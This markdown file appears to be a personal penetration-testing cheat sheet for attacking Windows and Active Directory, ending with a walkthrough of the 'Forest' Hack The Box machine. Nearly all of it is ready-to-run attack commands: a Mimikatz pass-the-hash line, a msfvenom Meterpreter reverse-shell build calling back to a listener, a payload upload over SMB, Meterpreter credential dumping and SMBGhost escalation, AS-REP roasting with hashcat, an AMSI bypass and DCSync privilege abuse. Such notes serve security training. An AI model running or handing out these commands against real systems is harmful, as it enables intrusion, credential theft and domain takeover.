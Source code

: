 ## Windows

* Use `more` to open Alternate Data Streams
    * `dir /r` to find files with Alternate Data Streams.
    * Finding all files with ADS's (recursively):
        * `dir /s /r | find ":$DATA"`
        * Powershell equivalent: `gci -recurse | % { gi $_.FullName -stream * } | where {(stream -ne ':$Data') -and (stream -ne 'Zone.Identifier')}`
            * Ignores ADS `Zone.identifier`; this tell MS whether a file was downloaded or locally created
* Base64: `[System.Text.Encoding]::UTF8.GetSTring([System.convert]::FromBase64String("lkjasflkjasdfklj"))`
* Mimikatz
    * `sekurlsa::pth /user:Administrator /domain:winxp /ntlm:f193d757b4d487ab7e5a3743f038f713 /run:cmd`
* Responder syntax
* `msfvenom -p windows/x64/meterpreter_reverse_https -a x64 LHOST=192.168.58.128 LPORT=443 -f exe --platform Windows -o reverse_https.exe`
* Curl to smb upload files: `curl --upload-file /root/reverse_https.exe -u 'windev2101eval\user' smb://192.168.58.153/c$/`
* Meterpreter Post
    * https://www.offensive-security.com/metasploit-unleashed/post-module-reference/
    * use windows/manage/multi_meterpreter_inject
    * getuid
    * sysinfo
    * load kiwi      creds_all
    * run post/windows/gather/credentials/credential_collector
    * run post/windows/gather/smart_hashdump
    * run post/windows/gather/bloodhound
* Privesc
    * use exploit/windows/local/cve_2020_0796_smbghost
        * set SESSION $SESSION$
    * run post/multi/recon/local_exploit_suggester
    * Dumphashes
    * lsa_dump_sam
    * dc_sync
    * steal_token
    * Winpeas
* Powershell
    * ps | ? { $_.path -Match "C:\\" } | select name,Path
* Red Teaming
    * Forest HTB Walkthrough
        * RPCClient
            * Null LDAP queries: rpcclient -U "" -n 10.10.10.161
                * enumdomusers
                * enumdomgroups
        * Dump LDAP users: `impacket-GetADUsers -all -no-pass -dc-ip 10.10.10.161 htb.local/`
        * Find ASREPRoast'able: `impacket-GetNPUsers -usersfile users.txt -request -dc-ip 10.10.10.161 -no-pass htb.local/`
        * Hashcat for ASREP: `hashcat -m 18200 svc-alfresco.kerb /usr/share/wordlists/rockyou.txt --force`
        * Evil-winrm
            * evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice -s /root/tools/powershell_scripts/
            * menu
            * Bypass-4MSI
            * SharpHound.ps1
            * Invoke-BloodHound -collectionmethod all -domain htb.local -ldapuser svc-alfresco -ldappass s3rvice
        * Add a user to privileged group
            * $pass = ConvertTo-SecureString "password" -AsPlainText -Force
            * New-AdUser testt -AccountPassword $pass -Enabled $True
            * Add-ADGroupMember -Identity "Exchange Windows Permissions" -members testt
        * Escalate (without powerview)
            * impacket-ntlmrelayx -t ldap://10.10.10.161 --escalate-user testt    (visit http://127.0.0.1)
        * Escalate (with powerview)
            * Add-DomainObjectAcl -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity testt -Rights DCSync